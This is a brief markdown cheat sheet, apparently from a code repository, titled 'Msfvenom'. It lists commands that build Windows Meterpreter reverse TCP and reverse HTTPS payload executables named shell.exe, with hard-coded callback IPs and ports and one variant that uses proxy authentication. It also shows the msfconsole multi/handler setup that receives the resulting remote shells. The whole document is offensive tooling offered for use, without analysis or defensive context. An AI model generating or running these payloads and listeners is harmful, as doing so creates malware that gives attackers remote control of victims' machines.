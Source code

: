 # Msfvenom
Create with:

Reverse TCP:
'''
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=172.16.14.112 LPORT=443 -b "\x00" -f exe -o shell.exe
'''
Reverse HTTPS with proxy authentication:
'''
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=* HttpProxyPass=* LHOST=77.99.55.98 LPORT=444 -b "\x00" -f exe -o shell.exe
'''

```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 192.168.1.123
set lport 4444
exploit -j
```
